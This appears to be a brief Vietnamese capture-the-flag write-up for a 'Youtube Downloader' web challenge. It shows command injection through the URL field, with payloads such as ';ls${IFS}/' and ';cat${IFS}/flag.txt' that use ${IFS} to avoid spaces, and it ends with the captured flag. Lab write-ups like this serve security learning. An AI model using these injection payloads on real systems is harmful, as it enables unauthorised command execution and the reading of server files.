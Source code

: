 <h1 href="https://battle.cookiearena.org/arenas/cookie-arena-ctf-season-2/battle/youtube-downloader">Youtube Downloader</h1>

Cung cấp 1 url

![](./img/1.png)

Thêm dấu ngắt lệnh <b>;ls</b>

Tên file <b>index.php</b> được trả về

![](./img/2.png)

Kiểm tra thư mục <b>/</b>, thấy file <b>flag.txt</b>
```
;ls${IFS}/
${IFS}: ký tự khoảng trắng trong shell
```
![](./img/3.png)

Đọc flag:
```
;cat${IFS}/flag.txt
```
![](./img/4.png)

```
FLAG: CHH{Ea5y_cOmmaND_inj3c7Ion_48a3fb378305a9dab79569e3060df5cc}
```

